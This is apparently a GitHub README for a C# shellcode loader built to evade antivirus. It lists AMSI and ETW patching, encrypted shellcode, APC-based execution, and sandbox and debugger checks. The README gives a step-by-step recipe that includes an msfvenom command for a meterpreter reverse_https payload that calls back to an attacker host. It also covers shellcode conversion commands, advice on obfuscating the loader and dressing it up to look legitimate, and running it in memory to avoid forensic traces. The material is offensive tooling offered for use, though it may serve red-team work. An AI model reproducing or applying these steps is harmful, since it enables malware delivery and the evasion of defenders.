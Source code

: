 ### C# ShellCode Loader 3
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode execution using Asynchronous Procedure Call (APC) and the NtTestAlert function
  - AMSI bypass (patching technique)
  - ETW bypass in user-mode (patching 'EtwEventWrite')
  - Shellcode encryption (AES-256 / CBC mode)
  - Shellcode handling => the encrypted shellcode is Base64-encoded and loaded from a local file
  - Dynamic API resolution (via GetProcAddress and LoadLibrary)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Basic sandbox detection & evasion
    - Terminates execution if the host Windows machine is not joined to a specific domain
    - Terminates execution if a debugger is detected (basic anti-debugging check)
  - Supports shellcodes generated by multiple Command-and-Control (C2) frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a Csharp shellcode with your favorite C2 framework or generate a "raw" shellcode and then convert it to the Csharp format.
```
Examples
[*] METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o stageless-shellcode.bin

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64; Indirect Syscall enabled; no sleep obfuscation; amsi/etw patching technique: hardware breakpoints)
    Then convert the raw shellcode to the Csharp format:
    > Manual option:
      @Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2
      @Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3
   > Or use a tool like "SUPERNOVA" to convert it (SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova)
``` 

  - STEP 2. Encrypt the shellcode using AES-256 encryption in CBC mode, then Base64-encode the encrypted output and save it to a file.
 ```
Examples
[*] AES encryption code - https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab4/3.cs
[*] Base64 encoding
    byte[] EncryptedShellcodeBytes = { ... };
    string Base64EncodedData = Convert.ToBase64String(EncryptedShellcodeBytes);
    Console.WriteLine(Base64EncodedData);
```
  - STEP 3. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.
    - Etc.

  - STEP 4. Compile the C# shellcode loader  
    <i/> Note: Adding an icon file and assembly attributes can make your executable appear more legitimate. </i>
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    Command: csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs AssemblyInfo.cs -nowarn:1691,618  -win32icon:.\icon.ico
``` 
  - STEP 5. Optional Actions
  	- You may compress and obfuscate the shellcode loader executable using a packer such as ConfuserEx. However, this step is not strictly necessary to bypass most AV solutions if you performed sufficient manual obfuscation in Step 3.
  	- Alternatively, you may choose to remotely download and execute the C# binary in memory using PowerShell and reflection-based code loading. This approach avoids writing the binary to disk, enhancing stealth and reducing forensic traces.
  - STEP 6. Execution
```
[*] Command: loader.exe <domain name> <C:\filepath\base64-shellcode-file.txt> <AES key>
[*] Command: loader.exe lab.local C:\temp\base64-shellcode.txt superkey
    Note:
    > Argument 1 = The domain name of the target Windows machine. Used for sandbox detection/evasion by verifying domain membership.
    > Argument 2 = The file path to the AES-256 encrypted shellcode, which must be Base64-encoded (i.e., C:\path\file.txt or .\path\file.txt).
    > Argument 3 = The AES passkey used for encryption and decryption.
``` 
#### LICENSE
  - GNU General Public License v3.0
